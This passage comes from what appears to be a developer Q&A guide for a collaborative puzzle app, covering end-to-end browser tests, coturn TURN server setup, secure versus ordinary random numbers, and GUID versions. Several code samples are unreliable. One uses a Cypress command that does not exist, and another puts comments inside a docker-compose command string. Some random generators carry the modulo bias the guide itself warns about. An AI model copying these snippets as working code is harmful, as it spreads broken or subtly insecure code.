    driver2.FindElement(By.Id("session-code-input")).SendKeys(sessionCode);
    driver2.FindElement(By.Id("join-button")).Click();
    
    // Wait for both users to be connected
    var wait1 = new WebDriverWait(driver1, TimeSpan.FromSeconds(10));
    wait1.Until(d => d.FindElements(By.CssSelector(".participant")).Count == 2);
    
    // User 1 moves a piece
    var piece1 = driver1.FindElement(By.CssSelector("[data-piece-id='1']"));
    var actions1 = new Actions(driver1);
    actions1.DragAndDropToOffset(piece1, 100, 100).Perform();
    
    // Assert - Verify piece moved on User 2's screen
    var wait2 = new WebDriverWait(driver2, TimeSpan.FromSeconds(5));
    wait2.Until(d =>
    {
        var piece2 = d.FindElement(By.CssSelector("[data-piece-id='1']"));
        var transform = piece2.GetCssValue("transform");
        return transform.Contains("translate(100px, 100px)");
    });
    
    // Simulate solving the puzzle
    await SolvePuzzleAsync(driver1, driver2, puzzleId);
    
    // Assert - Both users see completion
    AssertPuzzleCompleted(driver1);
    AssertPuzzleCompleted(driver2);
}

private async Task SolvePuzzleAsync(IWebDriver driver1, IWebDriver driver2, Guid puzzleId)
{
    var pieces = await GetPuzzlePiecesAsync(puzzleId);
    var drivers = new[] { driver1, driver2 };
    
    foreach (var (piece, index) in pieces.Select((p, i) => (p, i)))
    {
        var driver = drivers[index % 2]; // Alternate between users
        var pieceElement = driver.FindElement(By.CssSelector($"[data-piece-id='{piece.Id}']"));
        
        var actions = new Actions(driver);
        actions.DragAndDropToOffset(pieceElement, piece.CorrectX, piece.CorrectY)
               .Perform();
        
        // Small delay to simulate human interaction
        await Task.Delay(100);
    }
}

private void AssertPuzzleCompleted(IWebDriver driver)
{
    var completionModal = driver.FindElement(By.Id("completion-modal"));
    completionModal.Should().NotBeNull();
    completionModal.Displayed.Should().BeTrue();
    
    var completionTime = driver.FindElement(By.Id("completion-time")).Text;
    completionTime.Should().MatchRegex(@"\d{2}:\d{2}:\d{2}");
}
```

#### 2. Real-time Collaboration Features

```csharp
[Fact]
public async Task RealtimeFeatures_ShouldWorkCorrectly()
{
    // Test cursor tracking
    await TestCursorTrackingAsync();
    
    // Test piece locking
    await TestPieceLockingAsync();
    
    // Test chat functionality
    await TestChatAsync();
    
    // Test voice chat
    await TestVoiceChatAsync();
}

private async Task TestPieceLockingAsync()
{
    using var driver1 = CreateWebDriver();
    using var driver2 = CreateWebDriver();
    
    // Setup session
    var sessionUrl = await CreateAndJoinSessionAsync(driver1, driver2);
    
    // User 1 clicks on a piece (locks it)
    var piece = driver1.FindElement(By.CssSelector("[data-piece-id='5']"));
    piece.Click();
    
    // Assert piece shows as locked
    var lockedClass = piece.GetAttribute("class");
    lockedClass.Should().Contain("locked");
    
    // User 2 tries to move the same piece
    var piece2 = driver2.FindElement(By.CssSelector("[data-piece-id='5']"));
    var actions = new Actions(driver2);
    
    var initialPosition = piece2.Location;
    actions.DragAndDropToOffset(piece2, 50, 50).Perform();
    
    // Assert piece didn't move for User 2
    await Task.Delay(500); // Wait for any animation
    piece2.Location.Should().Be(initialPosition);
    
    // User 1 releases the piece
    driver1.FindElement(By.TagName("body")).Click(); // Click elsewhere
    
    // Now User 2 can move it
    await Task.Delay(100);
    actions.DragAndDropToOffset(piece2, 50, 50).Perform();
    piece2.Location.Should().NotBe(initialPosition);
}
```

#### 3. Performance and Load Testing

```csharp
[Fact]
public async Task LoadTest_MultipleSimultaneousSessions_ShouldPerformWell()
{
    const int numberOfSessions = 10;
    const int usersPerSession = 4;
    
    var tasks = new List<Task<SessionMetrics>>();
    
    for (int i = 0; i < numberOfSessions; i++)
    {
        tasks.Add(RunSessionAsync(i, usersPerSession));
    }
    
    var results = await Task.WhenAll(tasks);
    
    // Assert performance metrics
    results.Should().AllSatisfy(metrics =>
    {
        metrics.AverageLatency.Should().BeLessThan(100); // ms
        metrics.PieceUpdateRate.Should().BeGreaterThan(10); // updates/second
        metrics.ConnectionDrops.Should().Be(0);
        metrics.SynchronizationErrors.Should().Be(0);
    });
}

private async Task<SessionMetrics> RunSessionAsync(int sessionIndex, int userCount)
{
    var metrics = new SessionMetrics();
    var drivers = new List<IWebDriver>();
    
    try
    {
        // Create session
        var puzzleId = await CreateTestPuzzleAsync(100);
        
        // Create drivers for all users
        for (int i = 0; i < userCount; i++)
        {
            drivers.Add(CreateWebDriver());
        }
        
        // Join session
        var sessionCode = await CreateSessionAsync(drivers[0], puzzleId);
        for (int i = 1; i < userCount; i++)
        {
            await JoinSessionAsync(drivers[i], sessionCode);
        }
        
        // Simulate puzzle solving with metrics collection
        var stopwatch = Stopwatch.StartNew();
        var updates = 0;
        
        while (stopwatch.Elapsed < TimeSpan.FromMinutes(5))
        {
            var driverIndex = Random.Shared.Next(userCount);
            var driver = drivers[driverIndex];
            
            // Move random piece
            var pieceId = Random.Shared.Next(1, 101);
            var piece = driver.FindElement(By.CssSelector($"[data-piece-id='{pieceId}']"));
            
            var moveStart = DateTime.UtcNow;
            new Actions(driver)
                .DragAndDropToOffset(piece, Random.Shared.Next(-50, 50), Random.Shared.Next(-50, 50))
                .Perform();
            
            // Verify move propagated to all users
            var moveDuration = await VerifyMovePropagatadAsync(drivers, pieceId);
            metrics.Latencies.Add(moveDuration.TotalMilliseconds);
            
            updates++;
            await Task.Delay(100); // Throttle updates
        }
        
        metrics.PieceUpdateRate = updates / stopwatch.Elapsed.TotalSeconds;
        metrics.AverageLatency = metrics.Latencies.Average();
        
        return metrics;
    }
    finally
    {
        foreach (var driver in drivers)
        {
            driver?.Quit();
        }
    }
}
```

### E2E Testing Tools and Frameworks

#### 1. Selenium WebDriver Setup

```csharp
public class WebDriverFactory
{
    public static IWebDriver CreateDriver(BrowserType browser, bool headless = true)
    {
        return browser switch
        {
            BrowserType.Chrome => CreateChromeDriver(headless),
            BrowserType.Firefox => CreateFirefoxDriver(headless),
            BrowserType.Edge => CreateEdgeDriver(headless),
            _ => throw new NotSupportedException($"Browser {browser} not supported")
        };
    }
    
    private static IWebDriver CreateChromeDriver(bool headless)
    {
        var options = new ChromeOptions();
        
        if (headless)
        {
            options.AddArguments("--headless", "--disable-gpu");
        }
        
        options.AddArguments(
            "--no-sandbox",
            "--disable-dev-shm-usage",
            "--disable-blink-features=AutomationControlled",
            "--window-size=1920,1080"
        );
        
        // Enable logging for debugging
        options.SetLoggingPreference(LogType.Browser, LogLevel.All);
        
        return new ChromeDriver(options);
    }
}
```

#### 2. Playwright Alternative

```csharp
[Fact]
public async Task Playwright_ModernE2ETesting()
{
    using var playwright = await Playwright.CreateAsync();
    await using var browser = await playwright.Chromium.LaunchAsync(new()
    {
        Headless = true
    });
    
    // Create two browser contexts (users)
    var context1 = await browser.NewContextAsync();
    var context2 = await browser.NewContextAsync();
    
    var page1 = await context1.NewPageAsync();
    var page2 = await context2.NewPageAsync();
    
    // Navigate and interact
    await page1.GotoAsync($"{BaseUrl}/puzzle/123");
    await page2.GotoAsync($"{BaseUrl}/puzzle/123");
    
    // Better selectors and auto-waiting
    await page1.ClickAsync("button:has-text('Create Session')");
    var sessionCode = await page1.TextContentAsync("#session-code");
    
    await page2.FillAsync("#session-input", sessionCode);
    await page2.ClickAsync("button:has-text('Join')");
    
    // Verify real-time updates
    await page1.DragAndDropAsync("[data-piece='1']", "[data-target='1']");
    
    // Playwright automatically waits for the element to appear
    await page2.WaitForSelectorAsync("[data-piece='1'][data-placed='true']");
}
```

#### 3. Cypress for Modern E2E

```javascript
// cypress/e2e/puzzle-collaboration.cy.js
describe('Puzzle Collaboration', () => {
    it('should synchronize moves between users', () => {
        // User 1
        cy.visit('/puzzle/123');
        cy.get('#create-session').click();
        cy.get('#session-code').then(($code) => {
            const sessionCode = $code.text();
            
            // User 2 in different browser
            cy.openNewBrowser().then((browser2) => {
                browser2.visit('/join');
                browser2.get('#session-input').type(sessionCode);
                browser2.get('#join-button').click();
                
                // User 1 moves piece
                cy.get('[data-piece-id="1"]').drag('[data-slot-id="1"]');
                
                // Verify on User 2's screen
                browser2.get('[data-piece-id="1"]')
                    .should('have.attr', 'data-position', 'slot-1');
            });
        });
    });
});
```

### E2E Test Best Practices

1. **Page Object Model**:
```csharp
public class PuzzlePage
{
    private readonly IWebDriver _driver;
    
    public PuzzlePage(IWebDriver driver) => _driver = driver;
    
    public IWebElement CreateSessionButton => _driver.FindElement(By.Id("create-session"));
    public IWebElement SessionCode => _driver.FindElement(By.Id("session-code"));
    public IReadOnlyCollection<IWebElement> PuzzlePieces => 
        _driver.FindElements(By.CssSelector("[data-piece-id]"));
    
    public void DragPiece(int pieceId, int x, int y)
    {
        var piece = _driver.FindElement(By.CssSelector($"[data-piece-id='{pieceId}']"));
        new Actions(_driver).DragAndDropToOffset(piece, x, y).Perform();
    }
    
    public async Task<bool> WaitForPieceUpdate(int pieceId, TimeSpan timeout)
    {
        var wait = new WebDriverWait(_driver, timeout);
        return wait.Until(d =>
        {
            var piece = d.FindElement(By.CssSelector($"[data-piece-id='{pieceId}']"));
            return piece.GetAttribute("data-locked") == "false";
        });
    }
}
```

2. **Test Data Management**:
```csharp
public class E2ETestDataBuilder
{
    private readonly string _connectionString;
    
    public async Task<TestScenario> SetupPuzzleScenarioAsync()
    {
        var scenario = new TestScenario();
        
        // Create test users
        scenario.Users = await CreateTestUsersAsync(3);
        
        // Create test puzzle
        scenario.Puzzle = await CreateTestPuzzleAsync(
            title: "E2E Test Puzzle",
            pieceCount: 100,
            imageUrl: "https://test-storage/test-image.jpg"
        );
        
        // Pre-create a session
        scenario.Session = await CreateTestSessionAsync(
            scenario.Puzzle.Id,
            scenario.Users[0].Id
        );
        
        return scenario;
    }
    
    public async Task CleanupAsync(TestScenario scenario)
    {
        await DeleteSessionAsync(scenario.Session.Id);
        await DeletePuzzleAsync(scenario.Puzzle.Id);
        await DeleteUsersAsync(scenario.Users.Select(u => u.Id));
    }
}
```

3. **Retry and Stability**:
```csharp
public static class E2ETestHelpers
{
    public static async Task<T> RetryAsync<T>(
        Func<Task<T>> operation,
        int maxAttempts = 3,
        TimeSpan? delay = null)
    {
        delay ??= TimeSpan.FromSeconds(1);
        
        for (int i = 0; i < maxAttempts; i++)
        {
            try
            {
                return await operation();
            }
            catch (Exception ex) when (i < maxAttempts - 1)
            {
                await Task.Delay(delay.Value * (i + 1));
            }
        }
        
        return await operation(); // Let it throw on final attempt
    }
}
```

### E2E vs Other Test Types

```yaml
Unit Tests:
  - Scope: Single class/method
  - Speed: Milliseconds
  - Isolation: Complete
  - Example: Testing PuzzleService.CalculateScore()

Integration Tests:
  - Scope: Multiple components
  - Speed: Seconds
  - Isolation: Partial (may use test DB)
  - Example: Testing API endpoint with real database

E2E Tests:
  - Scope: Complete user workflow
  - Speed: Minutes
  - Isolation: None (full stack)
  - Example: User completes puzzle with friends
```

### E2E Test Strategy

1. **Critical Path Coverage**: Focus on most important user journeys
2. **Smoke Tests**: Quick E2E tests for deployment validation  
3. **Nightly Regression**: Comprehensive E2E suite runs overnight
4. **Cross-Browser Testing**: Test on Chrome, Firefox, Edge, Safari
5. **Mobile Testing**: Responsive design and touch interactions
6. **Performance Baseline**: E2E tests track performance metrics

## 20. What is coturn in docker-compose?

**Coturn** is an open-source TURN (Traversal Using Relays around NAT) and STUN (Session Traversal Utilities for NAT) server implementation. In the CollaborativePuzzle docker-compose, it enables WebRTC connections between users who are behind NATs or firewalls.

### Understanding TURN/STUN in WebRTC

WebRTC requires peers to exchange network information to establish direct connections. When direct peer-to-peer connections fail due to NAT/firewall restrictions, TURN servers relay the traffic.

**Connection Flow:**


### Coturn Configuration in CollaborativePuzzle

**Docker Compose Configuration:**
```yaml
coturn:
  image: coturn/coturn:latest
  container_name: puzzle-turn
  command: >
    -n                           # No configuration file
    --lt-cred-mech              # Long-term credential mechanism
    --fingerprint               # STUN fingerprint
    --no-multicast-peers        # Disable multicast
    --no-cli                    # Disable CLI
    --no-tlsv1                  # Disable old TLS versions
    --no-tlsv1_1 
    --realm=puzzle.local        # Authentication realm
    --user=testuser:testpassword # Static user credentials
    --external-ip=$$(hostname -I | awk '{print $$1}')  # External IP
    --listening-port=3478       # Default STUN/TURN port
    --tls-listening-port=5349   # TLS port
    --min-port=49152           # RTP relay port range
    --max-port=65535
  ports:
    - "3478:3478/udp"          # STUN/TURN UDP
    - "3478:3478/tcp"          # STUN/TURN TCP
    - "5349:5349/udp"          # STUN/TURN TLS UDP
    - "5349:5349/tcp"          # STUN/TURN TLS TCP
    - "49152-65535:49152-65535/udp"  # RTP relay ports
  networks:
    - puzzle-network
```

### Production-Ready Coturn Configuration

**Advanced coturn.conf:**
```ini
# Network settings
listening-port=3478
tls-listening-port=5349
alt-listening-port=3479
alt-tls-listening-port=5350

# External IP configuration for cloud deployment
external-ip=203.0.113.10/10.0.0.5
# OR for AWS/Azure
# external-ip=$(curl -s http://169.254.169.254/latest/meta-data/public-ipv4)

# Relay IP (can be same as external)
relay-ip=203.0.113.10

# Authentication
lt-cred-mech
use-auth-secret
static-auth-secret=your-secret-key-here
# OR database authentication
# userdb=/var/lib/coturn/turndb

# Realm
realm=puzzleapp.com
# Multiple realms supported
# realm=puzzleapp.com
# realm=staging.puzzleapp.com

# Performance tuning
relay-threads=4
min-port=49152
max-port=65535
no-stdout-log
log-file=/var/log/coturn/turn.log
syslog

# Security
no-tlsv1
no-tlsv1_1
fingerprint
no-multicast-peers
denied-peer-ip=0.0.0.0-0.255.255.255
denied-peer-ip=127.0.0.0-127.255.255.255
denied-peer-ip=10.0.0.0-10.255.255.255
denied-peer-ip=172.16.0.0-172.31.255.255
denied-peer-ip=192.168.0.0-192.168.255.255
allowed-peer-ip=203.0.113.0-203.0.113.255

# SSL/TLS configuration
cert=/etc/coturn/cert.pem
pkey=/etc/coturn/key.pem
cipher-list="ECDHE-RSA-AES256-GCM-SHA512:DHE-RSA-AES256-GCM-SHA512"
dh-file=/etc/coturn/dhparam.pem

# Quota and bandwidth
user-quota=100
total-quota=300
max-bps=1000000  # 1 Mbps per connection
bps-capacity=10000000  # 10 Mbps total

# Database for dynamic users
# psql-userdb="host=localhost dbname=coturn user=coturn password=coturnpass"
# mysql-userdb="host=localhost dbname=coturn user=coturn password=coturnpass"
# redis-userdb="ip=127.0.0.1 port=6379 password=redis-password"
```

### WebRTC Integration in CollaborativePuzzle

**Client-Side Configuration:**
```javascript
// WebRTC configuration with TURN/STUN servers
const iceServers = [
  {
    urls: 'stun:puzzle-turn:3478'  // STUN server
  },
  {
    urls: 'turn:puzzle-turn:3478',  // TURN server
    username: 'testuser',
    credential: 'testpassword'
  },
  {
    urls: 'turns:puzzle-turn:5349', // TURN over TLS
    username: 'testuser',
    credential: 'testpassword'
  },
  // Fallback public STUN servers
  {
    urls: 'stun:stun.l.google.com:19302'
  }
];

// Create peer connection
const peerConnection = new RTCPeerConnection({
  iceServers: iceServers,
  iceCandidatePoolSize: 10,
  bundlePolicy: 'max-bundle',
  rtcpMuxPolicy: 'require',
  iceTransportPolicy: 'all' // or 'relay' to force TURN
});

// Monitor ICE connection state
peerConnection.oniceconnectionstatechange = () => {
  console.log('ICE State:', peerConnection.iceConnectionState);
  
  if (peerConnection.iceConnectionState === 'connected') {
    // Check if using TURN relay
    peerConnection.getStats().then(stats => {
      stats.forEach(report => {
        if (report.type === 'candidate-pair' && report.state === 'succeeded') {
          console.log('Connection type:', report.remoteCandidateType);
          if (report.remoteCandidateType === 'relay') {
            console.log('Using TURN relay');
          }
        }
      });
    });
  }
};
```

**Server-Side TURN Credential Generation:**
```csharp
public class TurnCredentialService
{
    private readonly string _sharedSecret;
    private readonly string _turnServer;
    
    public TurnCredentialService(IConfiguration configuration)
    {
        _sharedSecret = configuration["Turn:SharedSecret"];
        _turnServer = configuration["Turn:Server"];
    }
    
    public TurnCredentials GenerateCredentials(string userId)
    {
        // Time-limited credentials (24 hours)
        var unixTimestamp = DateTimeOffset.UtcNow.AddHours(24).ToUnixTimeSeconds();
        var username = $"{unixTimestamp}:{userId}";
        
        // Create HMAC-SHA1 password
        using var hmac = new HMACSHA1(Encoding.UTF8.GetBytes(_sharedSecret));
        var password = Convert.ToBase64String(
            hmac.ComputeHash(Encoding.UTF8.GetBytes(username))
        );
        
        return new TurnCredentials
        {
            Username = username,
            Password = password,
            Urls = new[]
            {
                $"turn:{_turnServer}:3478",
                $"turns:{_turnServer}:5349"
            },
            ValidUntil = DateTimeOffset.FromUnixTimeSeconds(unixTimestamp)
        };
    }
}

// API endpoint
[HttpGet("api/turn-credentials")]
[Authorize]
public IActionResult GetTurnCredentials()
{
    var userId = User.GetUserId();
    var credentials = _turnService.GenerateCredentials(userId);
    
    return Ok(new
    {
        iceServers = new[]
        {
            new
            {
                urls = credentials.Urls,
                username = credentials.Username,
                credential = credentials.Password
            }
        },
        validUntil = credentials.ValidUntil
    });
}
```

### Monitoring and Scaling Coturn

**1. Prometheus Metrics:**
```yaml
# Coturn with Prometheus exporter
coturn:
  image: coturn/coturn:latest
  command: >
    -n
    --prometheus
    --prometheus-port=9641
    # ... other options
  ports:
    - "9641:9641"  # Prometheus metrics
```

**2. Load Balancing Multiple TURN Servers:**
```javascript
// Client-side load balancing
const turnServers = [
  'turn1.puzzleapp.com',
  'turn2.puzzleapp.com',
  'turn3.puzzleapp.com'
];

const iceServers = turnServers.map(server => ({
  urls: `turn:${server}:3478`,
  username: credentials.username,
  credential: credentials.password
}));

// Randomize order for load distribution
iceServers.sort(() => Math.random() - 0.5);
```

**3. Docker Compose for HA Setup:**
```yaml
services:
  coturn-1:
    image: coturn/coturn:latest
    command: >
      -n
      --redis-userdb="ip=redis port=6379 password=redis-pass"
      --redis-statsdb="ip=redis port=6379 password=redis-pass"
      # Shared Redis for user sync
    deploy:
      replicas: 3
      placement:
        constraints:
          - node.labels.region == us-east
          
  coturn-2:
    # Similar configuration for different region
    deploy:
      placement:
        constraints:
          - node.labels.region == eu-west
```

### Troubleshooting Coturn

**Common Issues and Solutions:**

1. **NAT Traversal Failures:**
```bash
# Test STUN functionality
turnutils_stunclient -p 3478 puzzle-turn

# Test TURN allocation
turnutils_uclient -u testuser -w testpassword -p 3478 puzzle-turn

# Check logs
docker logs puzzle-turn --tail 100
```

2. **Port Configuration:**
```bash
# Ensure UDP ports are open
sudo netstat -ulnp | grep coturn

# Test port connectivity
nc -u -v puzzle-turn 3478
```

3. **Performance Monitoring:**
```bash
# Monitor active connections
docker exec puzzle-turn turnadmin -l

# Check bandwidth usage
docker exec puzzle-turn turnadmin -b

# View user sessions
docker exec puzzle-turn turnadmin -L
```

### Best Practices

1. **Security**: Always use authentication and TLS in production
2. **Bandwidth**: Monitor and limit bandwidth per user
3. **Scaling**: Use multiple TURN servers in different regions
4. **Monitoring**: Implement proper logging and metrics
5. **Cost**: TURN relay can be expensive; optimize for direct connections
6. **Maintenance**: Regular security updates and certificate renewal

## 21. Why do we use cryptography vs base Random operations? Should we always defer to cryptography?

The choice between cryptographic and standard random number generation depends on the security requirements of your use case. For CollaborativePuzzle, different scenarios require different approaches.

### Understanding the Differences

#### Standard Random (System.Random)
```csharp
// Predictable pseudo-random number generator
var random = new Random();
var pieceRotation = random.Next(0, 360);     // Fine for game mechanics
var puzzleLayout = random.Next(1, 10);        // Fine for non-security features
```

**Characteristics:**
- **Deterministic**: Same seed produces same sequence
- **Fast**: Optimized for performance
- **Predictable**: Not suitable for security
- **Good for**: Game mechanics, simulations, non-critical randomness

#### Cryptographic Random (RandomNumberGenerator)
```csharp
// Cryptographically secure random from CollaborativePuzzle
public static class SecureRandom
{
    public static int Next(int minValue, int maxValue)
    {
        using var rng = RandomNumberGenerator.Create();
        var bytes = new byte[4];
        rng.GetBytes(bytes);
        
        var range = (uint)(maxValue - minValue);
        var value = BitConverter.ToUInt32(bytes, 0);
        return minValue + (int)(value % range);
    }
}
```

**Characteristics:**
- **Non-deterministic**: Uses entropy from OS
- **Slower**: More computational overhead
- **Unpredictable**: Suitable for security
- **Good for**: Tokens, session IDs, security-critical values

### When to Use Each Type

#### Use Cryptographic Random For:

**1. Session Identifiers:**
```csharp
public class SessionService
{
    public string GenerateSessionCode()
    {
        // MUST use crypto random for session security
        var bytes = new byte[6];
        using var rng = RandomNumberGenerator.Create();
        rng.GetBytes(bytes);
        
        // Convert to readable code (e.g., "A3F9K2")
        return Convert.ToBase64String(bytes)
            .Replace("+", "")
            .Replace("/", "")
            .Replace("=", "")
            .Substring(0, 6)
            .ToUpper();
    }
}
```

**2. API Keys and Tokens:**
```csharp
public class ApiKeyService
{
    public string GenerateApiKey()
    {
        // 256-bit cryptographically secure key
        var key = new byte[32];
        RandomNumberGenerator.Fill(key);
        return Convert.ToBase64String(key);
    }
    
    public string GenerateRefreshToken()
    {
        // Secure token for authentication
        var token = new byte[64];
        RandomNumberGenerator.Fill(token);
        return Convert.ToBase64String(token)
            .Replace("+", "-")
            .Replace("/", "_")
            .Replace("=", "");
    }
}
```

**3. Password Reset Tokens:**
```csharp
public class PasswordResetService
{
    public async Task<string> CreateResetTokenAsync(string userId)
    {
        // Cryptographically secure token
        var tokenBytes = new byte[32];
        RandomNumberGenerator.Fill(tokenBytes);
        var token = Convert.ToBase64String(tokenBytes);
        
        // Store hash of token, not the token itself
        var tokenHash = SHA256.HashData(Encoding.UTF8.GetBytes(token));
        
        await _repository.StoreResetTokenAsync(userId, tokenHash, DateTime.UtcNow.AddHours(1));
        
        return token; // Send this to user
    }
}
```

**4. Nonces and Challenge Values:**
```csharp
public class WebSocketAuthService
{
    public string GenerateConnectionNonce()
    {
        // Nonce for WebSocket authentication
        var nonce = new byte[16];
        RandomNumberGenerator.Fill(nonce);
        return Convert.ToBase64String(nonce);
    }
}
```

#### Use Standard Random For:

**1. Game Mechanics:**
```csharp
public class PuzzleGenerator
{
    private readonly Random _random = new Random();
    
    public PuzzlePiece[] ShufflePieces(PuzzlePiece[] pieces)
    {
        // Standard random is fine for shuffling puzzle pieces
        var shuffled = pieces.ToArray();
        
        for (int i = shuffled.Length - 1; i > 0; i--)
        {
            int j = _random.Next(i + 1);
            (shuffled[i], shuffled[j]) = (shuffled[j], shuffled[i]);
        }
        
        return shuffled;
    }
    
    public int GetRandomRotation()
    {
        // Random rotation for puzzle pieces
        return _random.Next(0, 4) * 90; // 0, 90, 180, or 270 degrees
    }
}
```

**2. Visual Effects and Animations:**
```csharp
public class PuzzleEffects
{
    private readonly Random _random = new Random();
    
    public ParticleEffect CreateCompletionEffect()
    {
        return new ParticleEffect
        {
            ParticleCount = _random.Next(50, 100),
            SpreadAngle = _random.NextDouble() * 360,
            Duration = _random.Next(1000, 2000), // milliseconds
            Colors = Enumerable.Range(0, 5)
                .Select(_ => Color.FromArgb(
                    255,
                    _random.Next(256),
                    _random.Next(256),
                    _random.Next(256)))
                .ToArray()
        };
    }
}
```

**3. AI/Bot Behavior:**
```csharp
public class PuzzleBot
{
    private readonly Random _random;
    
    public PuzzleBot(int? seed = null)
    {
        // Optionally use seed for reproducible behavior
        _random = seed.HasValue ? new Random(seed.Value) : new Random();
    }
    
    public PuzzlePiece SelectNextPiece(List<PuzzlePiece> availablePieces)
    {
        // Random piece selection for bot
        var index = _random.Next(availablePieces.Count);
        return availablePieces[index];
    }
}
```

### Performance Comparison

```csharp
[Benchmark]
public class RandomBenchmark
{
    private readonly Random _random = new Random();
    private readonly RandomNumberGenerator _rng = RandomNumberGenerator.Create();
    
    [Benchmark]
    public int StandardRandom()
    {
        return _random.Next(1000);
    }
    
    [Benchmark]
    public int CryptoRandom()
    {
        return SecureRandom.Next(1000);
    }
}

// Results (approximate):
// StandardRandom: 5 ns
// CryptoRandom: 150 ns
// Crypto is ~30x slower but still very fast
```

### Hybrid Approach for Performance

**Thread-Safe Random Pool:**
```csharp
public class FastSecureRandom
{
    private static readonly ThreadLocal<Random> _threadRandom = 
        new ThreadLocal<Random>(() =>
        {
            // Seed each thread's Random with crypto random
            var seed = new byte[4];
            RandomNumberGenerator.Fill(seed);
            return new Random(BitConverter.ToInt32(seed));
        });
    
    // Fast but not cryptographically secure
    public static int NextFast(int max) => _threadRandom.Value!.Next(max);
    
    // Secure but slower
    public static int NextSecure(int max) => SecureRandom.Next(max);
}
```

### Security Considerations

**1. GUID Generation:**
```csharp
// DON'T use for security
var gameId = Guid.NewGuid(); // Version 4 UUID, but not crypto-secure in all implementations

// DO use for security
var sessionId = new byte[16];
RandomNumberGenerator.Fill(sessionId);
var secureGuid = new Guid(sessionId);
```

**2. Avoiding Modulo Bias:**
```csharp
public static class UnbiasedRandom
{
    public static int NextUnbiased(int maxValue)
    {
        // Avoid modulo bias in cryptographic applications
        if (maxValue <= 0) throw new ArgumentOutOfRangeException();
        
        uint range = (uint)maxValue;
        uint limit = uint.MaxValue - (uint.MaxValue % range);
        uint value;
        
        do
        {
            var bytes = new byte[4];
            RandomNumberGenerator.Fill(bytes);
            value = BitConverter.ToUInt32(bytes);
        } while (value >= limit);
        
        return (int)(value % range);
    }
}
```

### Decision Matrix

```yaml
Use Cryptographic Random When:
  - Generating authentication tokens
  - Creating session identifiers  
  - Producing API keys
  - Making security decisions
  - Generating nonces/salts
  - Creating unpredictable IDs
  - Implementing lottery/gambling features

Use Standard Random When:
  - Shuffling game elements
  - Creating visual effects
  - Simulating AI behavior
  - Generating test data
  - Making non-security decisions
  - Performance is critical
  - Reproducibility is needed

Gray Areas - Consider Context:
  - User IDs: Crypto if exposed, standard if internal
  - Game seeds: Crypto if fairness matters
  - Cache keys: Usually standard is fine
  - Puzzle codes: Crypto if security matters
```

### Best Practices

1. **Default to Crypto for Security**: When in doubt about security implications, use cryptographic random
2. **Document Your Choice**: Make it clear why you chose one over the other
3. **Don't Roll Your Own**: Use established libraries, not custom implementations
4. **Seed Carefully**: If using Random with seed, ensure seed source is appropriate
5. **Consider Thread Safety**: Random is not thread-safe; RandomNumberGenerator is
6. **Test Randomness**: For critical applications, test distribution and unpredictability
7. **Update Regularly**: Keep cryptographic libraries updated for latest security

### Code Review Checklist

```csharp
// Security review questions:
// 1. Is this value exposed to users? → Use crypto
// 2. Can prediction cause security issues? → Use crypto  
// 3. Is this for authentication/authorization? → Use crypto
// 4. Is performance absolutely critical? → Consider standard
// 5. Do we need reproducibility? → Use standard with seed
// 6. Is this just for UI/UX? → Standard is likely fine
```

## 22. Why choose a different GUID generator? Are there specific ones for specific purposes?

GUIDs (Globally Unique Identifiers) come in different versions, each optimized for specific use cases. Understanding these differences is crucial for CollaborativePuzzle's scalability and performance.

### GUID Version Overview

#### Version 1: MAC Address + Timestamp
```csharp
// Not directly supported in .NET, but conceptually:
// Combines MAC address + timestamp + clock sequence
// xxxxxxxx-xxxx-1xxx-yxxx-xxxxxxxxxxxx
```

**Characteristics:**
- Contains timestamp and MAC address
- Sequential within same millisecond
- Can leak information about when/where created
- Good for distributed systems needing time ordering

#### Version 4: Random (Default in .NET)
```csharp
// Standard .NET implementation
var puzzleId = Guid.NewGuid(); // Version 4 random GUID
// Example: 550e8400-e29b-41d4-a716-446655440000
```

**Characteristics:**
- 122 bits of randomness (6 bits for version/variant)
- No sequential properties
- Most common, good general purpose
- Can cause index fragmentation in databases

#### Version 7: Time-Ordered (Emerging Standard)
```csharp
// Custom implementation for time-ordered GUIDs
public static class GuidV7
{
    public static Guid NewGuid()
    {
        var bytes = new byte[16];
        var timestamp = DateTimeOffset.UtcNow.ToUnixTimeMilliseconds();
        
        // First 48 bits: timestamp
        bytes[0] = (byte)(timestamp >> 40);
        bytes[1] = (byte)(timestamp >> 32);
        bytes[2] = (byte)(timestamp >> 24);
        bytes[3] = (byte)(timestamp >> 16);
        bytes[4] = (byte)(timestamp >> 8);
        bytes[5] = (byte)timestamp;
        
        // Next 12 bits: random + version (0111 = version 7)
        var random = new byte[10];
        RandomNumberGenerator.Fill(random);
        
        bytes[6] = (byte)((random[0] & 0x0F) | 0x70); // Version 7
        bytes[7] = random[1];
        
        // Variant bits (10)
        bytes[8] = (byte)((random[2] & 0x3F) | 0x80);
        
        // Rest is random
        Array.Copy(random, 3, bytes, 9, 7);
        
        return new Guid(bytes);
    }
}
```

### Specialized GUID Implementations

#### 1. Sequential GUIDs for SQL Server
```csharp
public static class SequentialGuid
{
    // SQL Server sorts GUIDs differently - last 6 bytes first
    public static Guid NewSequentialGuid()
    {
        var guidBytes = Guid.NewGuid().ToByteArray();
        var timestamp = DateTime.UtcNow.Ticks;
        var timestampBytes = BitConverter.GetBytes(timestamp);
        
        // SQL Server sorts by the last 6 bytes first
        // So we put our sequential data there
        if (BitConverter.IsLittleEndian)
        {
            Array.Reverse(timestampBytes);
        }
        
        // Copy timestamp to the end for SQL Server ordering
        Array.Copy(timestampBytes, 0, guidBytes, 10, 6);
        
        return new Guid(guidBytes);
    }
}

// Usage in Entity Framework
public class PuzzleDbContext : DbContext
{
    protected override void OnModelCreating(ModelBuilder modelBuilder)
    {
        modelBuilder.Entity<Puzzle>()
            .Property(p => p.Id)
            .HasDefaultValueSql("NEWSEQUENTIALID()"); // SQL Server native
    }
}
```

#### 2. Short IDs for User-Facing Features
```csharp
public class ShortIdGenerator
{
    private static readonly char[] _alphabet = 
        "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".ToCharArray();
    
    // Generate collision-resistant short IDs
    public static string GenerateShortId(int length = 8)
    {
        var bytes = new byte[length];
        RandomNumberGenerator.Fill(bytes);
        
        var result = new char[length];
        for (int i = 0; i < length; i++)
        {
            result[i] = _alphabet[bytes[i] % _alphabet.Length];
        }
        
        return new string(result);
    }
    
    // Nanoid implementation for URL-safe IDs
    public static string GenerateNanoId(int size = 21)
    {
        var mask = (2 << (int)Math.Log2(_alphabet.Length - 1)) - 1;
        var step = (int)Math.Ceiling(1.6 * mask * size / _alphabet.Length);
        
        var id = new StringBuilder();
        while (true)
        {
